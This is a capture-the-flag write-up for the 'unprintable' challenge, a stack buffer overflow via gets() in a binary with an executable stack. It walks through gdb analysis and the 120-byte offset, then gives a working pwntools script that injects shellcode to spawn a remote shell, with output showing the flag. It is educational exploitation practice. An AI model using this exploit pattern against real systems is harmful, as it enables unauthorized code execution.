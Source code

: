 ```yaml
---
title: "OSU League 2020/2021 - Unprintable Writeup"
date: 2020-10-30
draft: false
description: ""
tags: ["ctf"]
---
```

We are given a binary, so let's see what it does:
```
I found some empty room in the RAM on this system, and prepared some especially for you!
But I'm worried you might put something evil in it, so I'm not going to print it out
Here's your special RAM, happy birthday!: 0x7ffd617472f0
What are you going to do with it?
I wanna consume it
I hope you enjoyed your memory!
```

Hmm, looks like we are given a memory address along with a place to put some text.  Usually with challenges like these, the memory address given is the address of the buffer, we can verify this in a bit, but for now lets look at what securities the binary has using `pwn checksec unprintable`:

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Hmm, NX is disabled, meaning the stack is excecutable.  That means we can probably excecute shellcode on the stack.  Now let's open up the binary in gdb and see what's going on.

Running `info functions`, we get a list of the functions used in the program.  Its seems like the `input` function is the one we are looking for, so let's disassemble that.

```
gdb-peda$ disass input
Dump of assembler code for function input:
   0x00000000000006ca <+0>:	push   rbp
   0x00000000000006cb <+1>:	mov    rbp,rsp
   0x00000000000006ce <+4>:	sub    rsp,0x70
   0x00000000000006d2 <+8>:	lea    rax,[rbp-0x70]
   0x00000000000006d6 <+12>:	mov    rsi,rax
   0x00000000000006d9 <+15>:	lea    rdi,[rip+0xf8]        # 0x7d8
   0x00000000000006e0 <+22>:	mov    eax,0x0
   0x00000000000006e5 <+27>:	call   0x590 <printf@plt>
   0x00000000000006ea <+32>:	lea    rdi,[rip+0x117]        # 0x808
   0x00000000000006f1 <+39>:	call   0x580 <puts@plt>
   0x00000000000006f6 <+44>:	lea    rax,[rbp-0x70]
   0x00000000000006fa <+48>:	mov    rdi,rax
   0x00000000000006fd <+51>:	mov    eax,0x0
   0x0000000000000702 <+56>:	call   0x5a0 <gets@plt>
   0x0000000000000707 <+61>:	nop
   0x0000000000000708 <+62>:	leave  
   0x0000000000000709 <+63>:	ret    
End of assembler dump.
```
We can set a breakpoint right before the leave instruction to get a view of the stack right before returning.

```
gdb-peda$ break *input+61
Breakpoint 1 at 0x707
gdb-peda$ r
Starting program: /home/perchik/CTF/osuleague/week3/unprintable
I found some empty room in the RAM on this system, and prepared some especially for you!
But I'm worried you might put something evil in it, so I'm not going to print it out
Here's your special RAM, happy birthday!: 0x7fffffffde60
What are you going to do with it?
gimme cookies

[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffde60 ("gimme cookies")
RBX: 0x0
RCX: 0x7ffff7dcfa00 --> 0xfbad2288
RDX: 0x7ffff7dd18d0 --> 0x0
RSI: 0x6f6f6320656d6d69 ('imme coo')
RDI: 0x7fffffffde61 ("imme cookies")
RBP: 0x7fffffffded0 --> 0x7fffffffdee0 --> 0x555555554750 (<__libc_csu_init>:	push   r15)
RSP: 0x7fffffffde60 ("gimme cookies")
RIP: 0x555555554707 (<input+61>:	nop)
R8 : 0x55555575667e --> 0x0
R9 : 0x7ffff7fe04c0 (0x00007ffff7fe04c0)
R10: 0x555555756010 --> 0x0
R11: 0x246
R12: 0x5555555545c0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffdfc0 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
```

Sweet!  Looks like the address given is indeed the start of our buffer. Now to figure out how big that buffer is.  We can run it again, and this time lets look at the stack frame and calculate the offset of the saved rip and the address leak we were given.

```
Saved registers:
  rbp at 0x7fffffffded0, rip at 0x7fffffffded8
```

Subracting these two we end up getting a buffer that is 120 bytes.  So now we have everything we need to craft our exploit!

I used pwntools to craft the exploit, as it streamlines many things such as creating shellcode, connecting to a remote binary, etc.  

```python
from pwn import *
io = remote('ctf.ropcity.com', 31337)
#io = process("./unprintable")
#io = gdb.debug("./unprintable")
context.update(arch='amd64', os='linux')

io.recvuntil("birthday!: ")

address = int(io.recvline()[2:-1], 16)
shell = shellcraft.sh()
shellcode = asm(shell)
payload = shellcode.ljust(120, b'A')
payload += p64(address)

io.recvuntil("What are you going to do with it?")
io.sendline(payload)

io.interactive()
```

And running it we get a shell!!!

```
[+] Opening connection to ctf.ropcity.com on port 31337: Done
[*] Switching to interactive mode
$ cat flag
osu{i_c0uldnt_pr1nt_th4t_1f_I_tRi3ed!!!1!}
```

Woot! Learned a lot about getting shellcode working in pwntool, as well as using ljust to fill the buffer.  Super fun challenge!

